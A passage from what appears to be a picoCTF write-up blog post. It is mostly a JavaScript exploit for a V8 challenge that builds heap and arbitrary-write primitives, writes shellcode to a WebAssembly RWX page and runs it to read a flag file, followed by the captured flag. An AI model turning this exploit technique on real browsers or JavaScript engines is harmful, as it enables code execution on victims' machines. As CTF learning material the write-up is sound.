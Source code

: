 ```javascript



function heap_write(addr, data){
    if (addr % 2n == 0){
        addr += 1n
    }
    c[1] = itof((4n << 32n) + addr-8n)

    let fake = fakeobj(addrof(c) + 60n + 8n)


    fake[0] = itof(data)
}





function arb_write32(addr, data){
    if (addr % 2n == 1){
        addr -= 1n
    }

    let dataview = new DataView(buf)


    heap_write(addrof(buf) + 0x14n, addr)


    dataview.setBigUint64(0, data, true)
}


buf = new ArrayBuffer(0x100)

print("evil buf @", hex(addrof(buf)))


rwx_page = read(addrof(wasm_instance) + 103n)

print("rwx @", hex(rwx_page))


shellcode = [0xcfe016a, 0x66b84824, 0x2e67616c, 0x50747874, 0x4858026a, 0xf631e789, 0x90050f99, 0x41909090, 0xffffffba, 0xc689487f, 0x6a58286a, 0xf995f01, 0x5]

dataview = new DataView(buf)
heap_write(addrof(buf) + 0x14n, rwx_page)

for(i = 0; i < shellcode.length; ++i){
    dataview.setBigUint64(i*4, BigInt(shellcode[i]), true)
}

f()
```


Flag: `picoCTF{sh0u1d_hAv3_d0wnl0ad3d_m0r3_rAm_ 7d527e4f03815bf}`

In my next post, I will write up Turboflan, which deals with exploiting type confusion in TurboFan compiled functions.
